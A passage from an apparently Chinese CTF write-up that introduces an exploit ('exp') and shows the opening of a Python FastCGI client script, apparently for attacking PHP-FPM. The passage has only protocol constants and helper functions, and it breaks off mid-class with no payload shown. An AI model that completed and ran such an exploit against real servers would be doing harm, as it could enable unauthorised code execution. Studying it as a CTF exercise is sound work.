 ### 做题

#### 1.exp

这里首先给出exp

```cobol
import socket
import random
import argparse
import sys
from io import BytesIO
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')
def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s
class FastCGIClient:
    """A Fast-CGI Client for Python"""
    # private
    __FCGI_VERSION = 1
    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3
    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11
    __FCGI_HEADER_SIZE = 8
    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3
    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
```